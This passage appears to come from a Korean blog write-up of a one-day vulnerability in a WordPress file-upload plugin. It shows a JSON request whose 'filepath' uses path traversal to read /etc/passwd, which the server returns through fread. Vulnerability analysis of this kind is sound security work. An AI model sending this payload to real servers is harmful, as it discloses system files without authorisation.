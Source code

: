```json
{
    "ticket":"AAAAAAAAAAAAAAAA",
    "type":"normal",
    "filepath":"../../../../../etc/passwd",
    "handler":"dboption",
    "expire":9999999999,
    "wfu_ABSPATH":"/var/www/html/",
    "wfu_browser_downloadfile_notexist":"Not Exist",
    "wfu_browser_downloadfile_failed":"Failed"
}
```

![imagea](assets/posts/one-day/2025-02-12/image-008.png)

위 json 데이터 중 `filepath` 의 값은 다음과 같이 `fread` 함수에 의해 읽어와 응답 데이터로 출력합니다.
